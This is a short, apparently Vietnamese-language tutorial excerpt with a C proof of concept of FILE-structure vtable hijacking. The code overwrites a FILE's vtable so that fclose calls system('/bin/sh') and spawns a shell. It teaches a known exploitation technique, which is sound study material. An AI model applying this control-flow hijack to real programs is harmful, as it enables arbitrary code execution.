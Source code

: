 - Code mô tả khi ghi đè các biến trong vtable thì khi redirect sẽ gọi tới giá trị bị ghi đè.

```c
// gcc -m32 test.c -o test

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

void* vtable[] = {
    NULL, //    JUMP_FIELD(size_t, __dummy);
    NULL, //    JUMP_FIELD(size_t, __dummy2);
    NULL, //    JUMP_FIELD(_IO_finish_t, __finish);
    NULL, //    JUMP_FIELD(_IO_overflow_t, __overflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __underflow);
    NULL, //    JUMP_FIELD(_IO_underflow_t, __uflow);
    NULL, //    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    NULL, //    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    NULL, //    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    NULL, //    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    NULL, //    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    NULL, //    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    NULL, //    JUMP_FIELD(_IO_sync_t, __sync);
    NULL, //    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    NULL, //    JUMP_FIELD(_IO_read_t, __read);
    NULL, //    JUMP_FIELD(_IO_write_t, __write);
    NULL, //    JUMP_FIELD(_IO_seek_t, __seek);
    system,  // JUMP_FIELD(_IO_close_t, __close);
    NULL, //    JUMP_FIELD(_IO_stat_t, __stat);
    NULL, //    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    NULL  //    JUMP_FIELD(_IO_imbue_t, __imbue);
};

int main(int argc, char** argv) {
    // Creates a file and overwrites the vtable field in the FILE struct
    FILE *fp = fopen("/dev/null", "r");
    size_t *vtable_addr = ((void *) fp) + sizeof(FILE);

    *vtable_addr = (size_t *)vtable;

    // Moves "/bin/sh\x00" to the start of the file pointer.
    // When system is called, it will interpret the FILE* as a char*, which
    // means that the interpreted string will be "/bin/sh" due to the null byte.
    strcpy(fp, "/bin/sh\x00");

    // Calls system with the FILE pointer as an argument. This should create
    // a shell.
    fclose(fp);
    return 0;
}
```
